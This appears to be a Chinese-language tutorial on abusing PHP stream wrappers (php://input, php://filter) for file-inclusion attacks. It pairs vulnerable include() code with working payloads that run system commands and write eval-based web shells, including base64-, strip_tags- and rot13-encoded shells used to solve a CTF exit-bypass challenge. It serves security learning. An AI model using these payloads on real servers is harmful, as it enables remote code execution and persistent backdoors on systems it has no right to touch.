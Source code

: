 涉及的相关协议：`file://`、`php://filter`、`php://input`、`zip://`、`compress.bzip2://`、`compress.zlib://`、`data://`，此处先讨论自己了解的协议，逐渐补充ing。

### php://input
* 简介 `php://`:是个可以访问请求的原始数据的只读流。POST请求的情况下，最好用`php://input`来代替`$HTTP_RAW_POST_DATA`，因为他不依赖于特定的`php.ini`指令，而且，这样的情况下`$HTTP_RAW_POST_DATA`默认没有填充，比激活`always_populate_raw_post_data`潜在需要更少的内存，`enctype="multipart/form-data"`的时候`php://input`是无效的。 简单理解：除`enctype="multipart/form-data"`外，获取POST数据（可作为php代码执行）。 -  使用条件 1. allow\_url\_include = On 2. allow\_url\_fopen = Off/On #无要求  范例 环境：   //input.php
<?php
include(\$\_GET\[file\]);
?>
 应用：   //payload

  \[POST DATA 1\]:<?php phpinfo();?>
  \[POST DATA 2\]:<?php system('ls');?>
  \[POST DATA 3\]:<?php fputs(fopen("shell.php","w"),'<?php @eval(\$\_POST\[cmd\]);?>');?>    #我没写入成功，原因待查。
 

### php:filter
* 介绍 `php://filter` 是一种元封装器， 设计用于数据流打开时的筛选过滤应用。 这对于一体式（all-in-one）的文件函数非常有用，类似 `readfile()`、`file()`和`file_get_contents()`， 在数据流内容读取之前没有机会应用其他过滤器。 `php://filter`目标使用以下的参数作为它路径的一部分。 复合过滤链能够在一个路径上指定。详细使用这些参数可以参考具体范例。 

![image](images/vSo_eAR7kg7uQX29H5cf6L9Vcqzy9T1zdS-7e9jz9YI.png)

 -  使用条件 1. allow\_url\_include = Off/On #无要求 2. allow\_url\_fopen = Off/On #无要求  范例 环境：   //filter.php
<?php
include(\$\_GET\[file\]);
?>
 应用：   //payload

  \[GAT DATA 3\]:    filter.php?file=php://filter/resource=php://input    \[POST DATA\]:    <?php phpinfo();?>
  ctf例题 记录一个ctf例题，来自。感觉使用特别巧妙，主要记录一下使用方法，具体详情请膜拜大佬。 题目主要环境：   //ctf环境
  <?php
  \$content = '<?php exit; ?>';
  $content .=$\_POST\['txt'\];
  file\_put\_contents($_POST['filename'],$content); 
 解题方法：   //payload
  \[POST DATA 1\]: txt=aPD9waHAgQGV2YWwoJF9QT1NUW2NtZF0pOz8+&filename=php://filter/write=convert.base64-decode/resource=webshell.php
  \[POST DATA 2\]: txt=PD9waHAgQGV2YWwoJF9QT1NUW2NtZF0pOz8+&filename=php://filter/string.strip\_tags|convert.base64-decode/resource=webshell.php
  \[POST DATA 3\]: txt=<?cuc @riny(\$\_CBFG\[pzq\]);?>&filename=php://filter/write=string.rot13/resource=webshell.php    #在PHP不开启short\_open\_tag时，php不认识这个字符串
 